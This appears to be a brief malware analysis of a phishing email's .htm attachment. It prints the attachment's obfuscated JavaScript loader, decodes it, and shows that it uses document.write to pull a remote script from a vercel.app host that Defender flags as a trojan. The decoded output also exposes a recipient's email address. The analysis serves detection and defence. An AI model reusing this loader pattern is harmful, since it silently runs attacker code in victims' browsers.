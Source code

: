 Here is the content of the .htm attachment to the mail:

<html>
<head><script>var _fs=['PHNjcmlwdCBzcmM9Imh0dHBzOi8vZmljdGlvbmFsLWRtay52ZXJjZWwuYXBwLyI+PC9zY3JpcHQ+Cg==',"\x77\x72\x69\x74\x65"]; var h = "dGtlbXBAdC1vbmxpbmUuZGU="; document[_fs[1]](unescape(atob(_fs[0])))</script>

  

The obfuscation is simple and if decoded it reads as follows:

0th param: <script src="https://fictional-dmk.vercel.app/"></script>
1st param: write
h=tkemp@t-online.de

The link to vercel.app loads a script which - according to MS Defender - contains the following trojan:
Trojan:Script/Wacatac.B!ml
